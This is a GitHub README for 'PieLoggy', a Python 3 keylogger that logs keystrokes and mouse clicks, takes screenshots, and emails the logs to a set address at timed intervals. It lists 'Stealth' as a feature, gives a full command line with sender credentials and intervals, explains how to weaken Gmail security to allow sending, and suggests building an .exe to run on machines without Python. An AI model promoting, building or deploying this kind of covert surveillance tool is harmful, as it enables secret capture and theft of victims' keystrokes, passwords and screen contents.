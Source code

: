 # PieLoggy
PieLoggy is a modified version from [D4Vinci/PyLoggy](https://github.com/D4Vinci/PyLoggy) as a CLI version and work in python 3. Able to log keystrokes, log mouse clicks, take screenshots and more! The tool will send the logs to your email every x minutes.

## Features
- Fast
- Lightweight
- Screenshot
- Email
- Stealth
- Ease of use

## Example Usage
```ps1
> python ./src/PieLoggy.py -g example@gmail.com -p examplePassword -r examplereceiver@gmail.com --ss-interval=30 --mail-interval=300 -f 'D:/test/'
```
It'll run the program and screenshot every 30 seconds, mail it every 5 minutes, example as a sender account, examplePassword as an example account password, examplereceiver as a receiver account and `D:/test/` as a location where the logs and screenshot stored locally.

## Using gmail
To use gmail function you need to enable [allow less secure apps](https://myaccount.google.com/lesssecureapps) (only for sender gmail)

### Note
- To generate .exe file you can execute `build.ps1`, make sure you install the dependencies first with `> pipenv install`  
- Tested in python 3.8 not sure if other version is working.
- Consider using .exe because perhaps someone's computer doesn't have python installed.
